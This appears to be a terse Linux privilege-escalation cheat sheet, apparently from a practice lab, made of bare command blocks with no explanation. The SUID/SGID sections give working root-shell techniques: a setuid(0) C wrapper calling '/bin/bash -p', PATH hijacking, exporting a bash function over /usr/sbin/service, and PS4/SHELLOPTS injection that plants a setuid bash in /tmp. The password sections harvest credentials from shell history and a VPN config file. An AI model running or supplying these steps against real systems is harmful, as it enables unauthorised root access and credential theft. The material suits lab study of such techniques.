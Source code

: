## CATEGORY "SUID / SGID EXECUTEABLES" - ENVIRONMENT VARIABLES
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
strings /usr/local/bin/suid-env
gcc -o service /home/user/tools/suid/service.c
user@debian:~$ cat /home/user/tools/suid/service.c
int main() {
        setuid(0);
        system("/bin/bash -p");
}

PATH=.:$PATH /usr/local/bin/suid-env
/usr/local/bin/suid-env
```

## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 1
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

strings /usr/local/bin/suid-env2
/bin/bash --version
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```

## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 2
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
rm /tmp/rootbash
exit
```

## CATEGORY "PASSWORDS & KEYS" - HISTORY FILES
```
cat ~/.*history | less
mysql -h somehost.local -uroot -ppassword123
su root
password: password123
```

## CATEGORY "PASSWORDS & KEYS" - CONFIG FILES
```
ls /home/user
cat /home/user/myvpn.ovpn
su root
```
